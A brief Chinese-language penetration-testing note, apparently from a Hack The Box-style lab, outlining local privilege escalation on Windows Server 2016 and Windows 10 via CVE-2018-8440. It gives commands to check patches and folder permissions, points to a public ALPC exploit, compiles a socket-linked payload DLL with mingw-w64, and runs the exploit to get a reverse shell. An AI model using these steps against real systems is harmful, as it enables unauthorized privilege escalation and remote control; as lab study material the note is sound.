 # 1、CVE-2018-8440分析提权（win2016、win10）

查看系统版本及补丁情况
```bash
systeminfo
```
查看目录权限
```bash
icacls C:\Windows\Tasks
```
user需要有读和执行的权限
参考ALPC DiagHub exploit - https://github.com/realoriginal/alpc-diaghub
下载对应版本的bin，编写dll
使用mingw-w64编译dll
```bash
apt install mingw-w64
x86_64-w64-mingw32-g++ payload.cpp -o payload.dll -lws2_32 -shared
```
执行命令加载dll获得反弹shell
```bash
cmd /c alpc.exe payload.dll .\htb.rtf
```
